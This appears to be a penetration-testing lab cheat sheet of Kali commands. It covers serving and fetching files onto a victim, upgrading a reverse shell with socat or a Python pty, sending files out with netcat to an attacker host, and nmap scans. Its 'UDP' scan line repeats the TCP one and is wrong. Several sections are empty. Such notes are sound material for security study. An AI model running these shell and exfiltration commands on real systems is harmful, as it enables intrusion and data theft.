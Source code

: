 # Useful Commands

> This section will include commands / code I used in the lab environment that I found useful

## Web server

### With Python

Kali: ```python3 -m http.server 8888``` or ```python -m SimpleHTTPServer 80```

Victim: ```wget http://10.10.10.10:8888/something.sh -O something.sh```

## Upgrade reverse shell

### With Socat

Victim: ```wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat```
        ```chmod +x socat```
        ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444```
        
Kali:   ```socat file:`tty`,raw,echo=0 tcp-listen:4444```

### With Python

Victim: ```python3 -c 'import pty; pty.spawn("/bin/sh")'```

## Send files

### With netcat

Kali:   ```nc -lvp 4444 > file.txt```

Victim: ```cat file.txt | nc -q 0 10.10.10.10 4444 ````

## 
# Enumeration

> Enumeration is the most important thing you can do, at that inevitable stage where you find yourself hitting a wall, 90% of the time it will be because you haven’t done enough enumeration

## Nmap

TCP Scan:

```nmap -sV -sC -p- 10.10.10.216```

UDP Scan:

```nmap -sV -sC -p- 10.10.10.216```

# Privilege Escalation

# Some Scripts

# References
